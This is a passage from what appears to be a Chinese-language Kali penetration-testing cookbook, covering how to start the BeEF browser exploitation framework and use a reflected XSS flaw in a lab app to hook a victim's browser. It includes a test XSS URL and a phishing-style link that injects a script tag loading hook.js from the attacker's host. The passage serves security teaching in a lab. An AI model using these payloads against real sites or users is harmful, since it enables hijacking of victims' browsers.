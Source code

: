 BeEF，即浏览器利用框架，是个专注于客户端攻击向量的框架，特别是 Web 浏览器的攻击。

这个秘籍中，我们会利用 XSS 漏洞并使用 BeEF 来控制客户端浏览器。

### 准备

在开始之前，我们需要确保启动了 BeEF 服务，并且能够访问`http://127.0.0.1:3000/ui/panel`（使用`beef/beef`身份标识）。

1.  Kali 的默认 BeEF 服务不能工作。所以我们不能仅仅运行`beef-xss`让它启动。我们需要从安装目录中启动它，像这样：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```
    
    ![](img/7-3-1.jpg)
    
2.  现在，浏览`http://127.0.0.1:3000/ui/panel`并使用`beef`作为用户名和密码。如果有效，我们就准备好了。

### 操作步骤

1.  BeEF 需要客户端浏览器调用`hook.js`文件，这用于将浏览器勾到我们的 BeEF 服务器，我们会使用一个存在 XSS 漏洞的应用来使用户调用它。为了尝试简单的 XSS 测试，浏览`http://192.168.56.102/bodgeit/search.jsp?q=%3Cscript%3Ealert%28 1%29%3C%2Fscript%3E`。

2.  这就是存在 XSS 漏洞的应用，所以现在我们需要修改脚本来调用`hook.js`。想象一下你就是受害者，你已经收到了包含` http://192.168.56.102/bodgeit/search.jsp?q=<script src="http://192.168.56.1:3000/hook.js"></script>`链接的邮件，你打算浏览器它来看看，像这样：

    ![](img/7-3-2.jpg)
    